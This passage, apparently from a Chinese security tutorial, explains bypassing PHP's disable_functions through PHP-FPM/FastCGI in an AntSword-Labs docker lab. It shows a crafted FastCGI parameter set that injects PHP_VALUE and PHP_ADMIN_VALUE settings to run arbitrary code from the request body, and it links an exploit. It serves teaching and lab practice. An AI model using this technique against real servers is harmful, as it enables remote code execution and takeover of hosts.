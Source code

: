 我们虽然可以通过远程文件包含执行任意代码，但是远程文件包含是有 `allow_url_include` 这个限制因素的，如果没有为 `ON` 的话就没有办法进行远程文件包含，那要怎么设置呢?  
这里，PHP-FPM有两个可以设置PHP配置项的KEY-VALUE，即 `PHP_VALUE` 和 `PHP_ADMIN_VALUE`，`PHP_VALUE` 可以用来设置php.ini，`PHP_ADMIN_VALUE` 则可以设置所有选项（disable\_functions 选项除外），这样就解决问题了。

所以，我们最后最后构造的请求如下：

```php
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/name.php',
    'SCRIPT_NAME': '/name.php',
    'QUERY_STRING': '?name=alex',
    'REQUEST_URI': '/name.php?name=alex',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '6666',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

该请求设置了 `auto_prepend_file = php://input` 且 `allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码了。

这里附上P神的EXP：<https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75>

### 利用方法

我们利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 项目来搭建环境：

```bash
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/5
docker-compose up -d
```

搭建完成后访问 <http://your-ip:18080>：

![image-20210211135711659](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b833e0ccb448a838a93ebd0ce708b08d9f154b5e.png)

拿下shell后发现无法执行命令：

![image-20210211135615616](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a5c298211e74eda3d6a92be22938d2eddd131f17.png)

查看phpinfo发现设置了disable\_functions，并且，我们发现目标主机配置了FPM/Fastcgi：

![image-20210211152332033](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5c755e9681a807d90c7e270a27b8ac757838dffb.png)

我们便可以通过PHP-FPM绕过disable\_functions来执行命令。

在蚁剑中有该通过PHP-FPM模式绕过disable\_functions的插件：
